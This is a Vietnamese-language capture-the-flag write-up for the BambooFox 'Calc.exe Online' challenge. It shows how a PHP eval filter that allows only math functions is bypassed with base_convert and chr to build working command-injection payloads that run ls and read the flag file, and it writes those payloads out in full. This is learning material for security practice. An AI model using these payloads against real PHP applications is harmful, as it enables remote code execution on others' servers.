 # WRITE UP: Calc.exe Online

Chall: http://chall.ctf.bamboofox.tw:13377/

Source: https://github.com/rimc2t/write-up-cho-vui/blob/main/BambooFox-CTF/%5BWeb%5D%20Calc.exe%20Online/source.php

Cùng nhìn tổng quan đề bài 1 xíu nhé!!!!

## Overview

![hinh1](https://scontent.fsgn2-6.fna.fbcdn.net/v/t1.0-9/139404612_1360916280927703_9149939801016827697_n.png?_nc_cat=110&ccb=2&_nc_sid=730e14&_nc_ohc=ve9-OBZQPt4AX9JueT5&_nc_ht=scontent.fsgn2-6.fna&oh=0f8e721f4bf481312e71ad7a610e3cb4&oe=6028F116)

Ctr+U coi đi kiếm source xíu. Ồ cho file source nè:

![hinh3](https://scontent.fsgn2-6.fna.fbcdn.net/v/t1.0-9/138395872_1360917480927583_7950565622394537985_n.png?_nc_cat=100&ccb=2&_nc_sid=730e14&_nc_ohc=HMV2LUg9jkUAX8eqRtb&_nc_ht=scontent.fsgn2-6.fna&oh=37fd2f612f637ea1f216aa900d2adc8c&oe=602818A5)

![hinh4](https://scontent.fsgn2-6.fna.fbcdn.net/v/t1.0-9/139193741_1360967837589214_4621736347075272027_n.png?_nc_cat=100&ccb=2&_nc_sid=730e14&_nc_ohc=7aM6q8fo3K8AX8SNyCb&_nc_ht=scontent.fsgn2-6.fna&oh=c0f13bebd2a13e2a6328c4dab36ed650&oe=60280BD5)

Nào như mọi lần tui bắt đầu đi đọc code và kết luận vài dòng:

- Đây là code php
- Có 2 cái function
- Param của mình truyền vào là đi qua hàm **safe_eval**
- Trong **safe_eval**, nó đưa param của mình cho **is_safe** kiểm tra
- Trong **is_safe**, nó bắt đầu chạy code các kiểu -> tóm tắt lại rằng: Chỉ được dùng các hàm trong toàn học, và toán tử +-\*/
- Sau khi **is_safe** true sẽ cho chúng ta thực thi (eval), ngược lại sẽ xuất ra màn hình 1 chuỗi.

> Vậy giải pháp rút ra là phải inject vào 1 đoạn code sao cho hàm **is_safe** trả về true rồi tạo thành 1 command có nghĩa để thực thi được đến server server.

## SEEKING
Mình là một con gà mờ về ctf. Nên khi đọc vào trong đầu nghĩ là *"Ủa? sao được ta? hàm của toán để nó thành command có nghĩa kiểu gì?"*. Quyết định ăn miếng bánh thư giãn cho đầu óc suy nghĩ ngoài cái hộp. Ngẫm nghĩ lại lúc trước có làm (đọc write up làm theo) một số bài web thì các bài liên quan đến **eval()** thì exploit trực tiếp vô luôn, còn cái này có *filter* thì thường dùng những kỹ thuật xor hay bằng cách nào đấy biến số thành chữ.

>Thế là mình quyết định đi tìm các hàm biến số thành chữ hêh

Lúc đầu đi tìm thì mình thấy 1 vài hàm như **dechex** **decoct** thì mình dzui vì thấy có khả năng, mà nghĩ lại: *"Ủa :)) phải có đủ bảng chữ cái chứ, hong ổn rồi"*
Một hồi mình nhìn kỹ xíu nữa thì thấy 1 hàm **base_convert**, hehe nghe xịn mình liền lên w3school tìm hướng dẫn sử dụng (tại w3 có chỗ debug luôn nên mình ưu tiên).

![hinh5](https://scontent.fsgn2-6.fna.fbcdn.net/v/t1.0-9/139701687_1360932737592724_2820394334159202042_n.png?_nc_cat=100&ccb=2&_nc_sid=730e14&_nc_ohc=HND36JbcqNYAX_Rhwq7&_nc_ht=scontent.fsgn2-6.fna&oh=ddfb680eaf96e04f88bb9ba9b463eed4&oe=6027B6DF)

![hinh6](https://scontent.fsgn2-3.fna.fbcdn.net/v/t1.0-9/139477082_1360935034259161_5270276016675269189_n.png?_nc_cat=106&ccb=2&_nc_sid=730e14&_nc_ohc=yYgHu-x5GasAX9knpwh&_nc_ht=scontent.fsgn2-3.fna&oh=98630cfbf2d6a09f6fb8def9ee4edaf9&oe=60291091)

Thử chuyển hệ 36 sang hệ 10 luôn nè:

![hinh7](https://scontent.fsgn2-3.fna.fbcdn.net/v/t1.0-9/139718552_1360935947592403_3256650028083666150_n.png?_nc_cat=106&ccb=2&_nc_sid=730e14&_nc_ohc=mLDYAutpJscAX_No6zB&_nc_ht=scontent.fsgn2-3.fna&oh=93b0061201edcfdda66df394016cf1c4&oe=6029D635)

Hehe boizzz, ngonnnnn

>Sau khi đã tìm được hồ cá, lượm được cần câu. Giờ phải dùng kỹ năng đi câu hoyyyyyyyyy

## INJECTION
Quay lại với hình 1 nhé, coi lại chỗ để nhập phép tính. Trong đầu phải ghi nhớ rằng: *"Bây giờ phải dùng **base_convert** để biến những con số thành 1 command có nghĩa rồi bỏ vô payload này nhaaaa"*

### system(ls)

>system():					base_convert(1751504350,10,36)()

>ls:						    base_convert(784,10,36)

>**PAYLOAD: base_convert(1751504350,10,36)(base_convert(784,10,36))**

Sau đó sẽ trả về kết quả:

![hinh8](https://scontent.fsgn2-3.fna.fbcdn.net/v/t1.0-9/139471146_1360942944258370_7846989612733427119_n.png?_nc_cat=106&ccb=2&_nc_sid=730e14&_nc_ohc=x7CD47HUc1kAX85inpR&_nc_ht=scontent.fsgn2-3.fna&oh=d451023b8209c672721204c1e1177bbd&oe=6026CED9)

Ò ở đây chỉ có index chứ hong có flag :(
Mình đi ra thư mục gốc xem thử có flag ngoài đó hong

### system(ls /)
Lúc này có cái khó khăn là có khoảng trắng và dấu '/'. hmmmmm? làm shaooooo?
Mình tìm mọi cách và được chỉ dẫn đến sử dụng **ord** để lấy mã ascii 1 chữ và **chr** để đổi ascii ra ký tự. Việc mình cần làm là gọi hàm **chr** thông qua hàm **base_convert** và số (số này là đổi chuỗi "chr" từ base-36 sang base-10). Tiếp đó dùng các dấu '.' để nối các hàm lại với nhau.
>system():					base_convert(1751504350,10,36)()

>ls:						    base_convert(784,10,36)

>space:             base_convert(16191,10,36)(32)

>/:                 base_convert(16191,10,36)(47)

>**PAYLOAD: base_convert(1751504350,10,36)(base_convert(784,10,36).base_convert(16191,10,36)(32).base_convert(16191,10,36)(47))**

Nhận ngay kết quả: 

![hinh9](https://scontent.fsgn2-4.fna.fbcdn.net/v/t1.0-9/137328100_1360948444257820_2551682331755669394_n.png?_nc_cat=101&ccb=2&_nc_sid=730e14&_nc_ohc=LNzI_tUCEPsAX9gLo1d&_nc_ht=scontent.fsgn2-4.fna&oh=113d5590d5f2fa6155970803f6328907&oe=60294521)

Á à thì ra flag nằm ngày đây: **flag_a2647e5eb8e9e767fe298aa012a49b50**
Giờ thì mình mở ra xem hoyyyyy

### system(cat /flag_a2647e5eb8e9e767fe298aa012a49b50)

>system():					                  base_convert(1751504350,10,36)()

>cat:						                      base_convert(15941,10,36)

>space:						                    .base_convert(16191,10,36)(32)

>/:						                        .base_convert(16191,10,36)(47)

>flag:					                    	.base_convert(727432,10,36)

>_:				                         		.base_convert(16191,10,36)(95)

>a2647e5eb8e9e767fe298aa012a49b50):		.base_convert(788365066082,10,36).base_convert(880282369231,10,36).base_convert(1206073849608,10,36).base_convert(83329543332,10,36)


Đoạn nào chữ thôi thì mình chỉ cnầ dùng **base_convert** còn đoạn nào có ký tự đặc biệt thì mình kết hợp với **chr** (16191 base36) nữa nhé!
Ở chuỗi chữ và số dài loằng ngoằng kia ban đầu mình chỉ dùng 1 lần **base_convert** nhưng mà nó bị tràn số ra kết quả hong chính xác nên mình chia thành 4 đoạn.
Giờ chỉ cần ghép lại tất cả để có payload chính xác:

>**PAYLOAD: base_convert(1751504350,10,36)(base_convert(15941,10,36).base_convert(16191,10,36)(32).base_convert(16191,10,36)(47).base_convert(727432,10,36).base_convert(16191,10,36)(95).base_convert(788365066082,10,36).base_convert(880282369231,10,36).base_convert(1206073849608,10,36).base_convert(83329543332,10,36))**

Hơi dài nhưng chỉ 405chars vẫn thỏa < 1024 của đề bài. Cuối cùng nhận được kết quả:

![hinh10](https://scontent.fsgn2-6.fna.fbcdn.net/v/t1.0-9/139449877_1360956844256980_5107937802172987774_n.png?_nc_cat=110&ccb=2&_nc_sid=730e14&_nc_ohc=c2LKQLlWJnwAX8XJqRI&_nc_ht=scontent.fsgn2-6.fna&oh=652d2a0cf660532758b0dfc732742e23&oe=60277931)


***Trên đây là tất cả write-up của mình về bài "Calc.exe Onl", trình còn kém nên làm còn mơ hồ, diễn giải có thể màu mè hoặc không đúng. Mong bạn đọc có thể đóng góp ý kiến về trang cá nhân của mình <3 Chân thành cảm ơn!***

[Tweeter](https://twitter.com/rimc2t)
[Facebook](https://www.facebook.com/rimc2t)
